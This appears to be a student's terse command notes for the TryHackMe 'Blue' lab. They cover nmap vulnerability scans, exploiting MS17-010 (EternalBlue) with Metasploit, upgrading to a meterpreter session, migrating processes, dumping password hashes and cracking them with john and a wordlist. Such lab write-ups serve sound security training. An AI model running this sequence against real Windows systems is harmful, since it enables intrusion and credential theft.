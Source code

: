 # TryHackMe
---
### **Prof. Sonnleitner**
 ```
sudo openvpn kollegekoi.ovpn &
ip a
10.9.41.189
nmap 10.10.71.41 | tee nmap-standard
nmap --script vuln -p 135,139,445 10.9.41.189
_um herauszufinden ob es sich um eine Windows Maschine handelt_
nmap --script vuln -p 135,149,445 10.10.227.183 |tee nmap-vuln
 ```
---
```
nmap -sV -sC --script vuln -oN blue.nmap 10.10.137.78
msfconsole
search ms17
search eternal
use 3
show options


 _remote host target_
 ```
run
C:\Windows\system32>```
**Optional**
```
set rhots 10.10.201.164
run
exploit
show options
set LPORT 4445
```
---
```
use post/multi/manage/shell_to_meterpreter
show options
set session 1
run
session
sessions
sessions -i 2
getuid
shell
whoami
strg + z
ps
migrate (ProcessID)
getuid
```
---
```
15. hashdump
16. echo "john"
17. john jon.hash --format=NT --wordlist=/opt/rockyou.txt
